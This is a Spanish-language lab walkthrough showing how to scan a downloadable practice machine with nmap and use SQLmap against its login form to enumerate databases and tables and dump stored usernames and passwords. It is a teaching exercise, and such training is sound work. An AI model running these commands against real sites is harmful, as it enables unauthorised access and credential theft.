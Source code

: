 
----
- TAG: #Inyecciones-SQL #Inyecciones #SQLmap 
----
# Inyección SQL con SQLmap y Doclerlabs

En este apartado vamos a estar aprendiendo un ejemplo similar al anterior utilizando la herramienta de **SQLmap**, pero esta vez con una máquina de **Doclerlabs** llamada [Database](https://mega.nz/file/JaFAhBDB#4nFyDl36xA7hyVpo8hdJSuiIh34IwjhTGG2yGtk1FLs) de la plataforma de nuestro buen profe **Mario**.

## Despliegue de la Máquina

Esta máquina es ideal para practicar las inyecciones SQL. Una vez lo hayamos descargado, simplemente realizamos el siguiente comando:

```bash
sudo bash auto_deploy.sh database.tar
```

Una vez desplegada la máquina, nos mostrará la dirección IP en la parte de abajo.

## Escaneo de Puertos

Nos convertimos en usuarios **root** y realizamos un escaneo de puertos con **nmap**:

```bash
nmap -p- -sS -sC -sV --min-rate 5000 -n -vvv -Pn 1.2.3.4
```

Normalmente, cuando realizamos ciertos escaneos, no solemos encontrar las bases de datos expuestas, así que eso es algo normal. Hay ocasiones que sí suelen estar expuestas.

## Acceso a la Página Web

Ingresamos a la página web con la dirección IP de la máquina víctima que nos hemos descargado. Vemos que nos muestra una página de login. Por lo general, en los logins suelen estar detrás las bases de datos, pero se encuentran de manera interna.

Tampoco suele funcionar con ataques de fuerza bruta. Cuando nos encontremos con estos casos, lo más recomendable es hacer una **inyección SQL**.

## Uso de SQLmap

Para ello, abrimos la herramienta de **SQLmap** para utilizarla como en clases anteriores:

```bash
sqlmap -u http://1.2.3.4/index.php --forms --dbs --batch
```

- El parámetro `--batch` nos permite que **SQLmap** haga sus funciones de manera automatizada.
- `--dbs` nos permite enumerar las bases de datos que existen.
- `--forms` indica que debe atacar los formularios `.html` que se vayan encontrando, es decir, los espacios que deben ser llenados.

Al terminar con el escaneo, veremos que nos muestra dos archivos muy importantes: `register` y `sys`. En **register** fácilmente lograremos encontrar credenciales.

## Enumeración de la Base de Datos

Ahora ejecutaremos el siguiente comando para enumerar la base de datos `register`. Como ya sabemos la base de datos a atacar, borramos `--dbs` y añadimos `-D` de Database:

```bash
sqlmap -u http://1.2.3.4/index.php --forms -D register --tables --batch
```

A continuación, nos mostrará la tabla `users`. Con esta información le agregamos el parámetro `-T` ya que sabemos el nombre de la tabla y el parámetro `--columns` para que nos muestre la información de las columnas. Buscamos las columnas de la siguiente manera:

```bash
sqlmap -u http://1.2.3.4/index.php --forms -D register -T users --columns --batch
```

## Extracción de Datos

Ahora lo que queda por hacer es agregar el parámetro `-C` para que nos muestre la información de las columnas `passwd` y `username`:

```bash
sqlmap -u http://1.2.3.4/index.php --forms -D register -T users -C passwd,username --dump --batch
```

Y veremos que conseguimos ver las credenciales tanto de `passwd` como de `username`. Con esta información podremos ingresar con las credenciales correctas por la página web con la IP asignada.

¡Saludos desde Ecuador! 🇪🇨🫡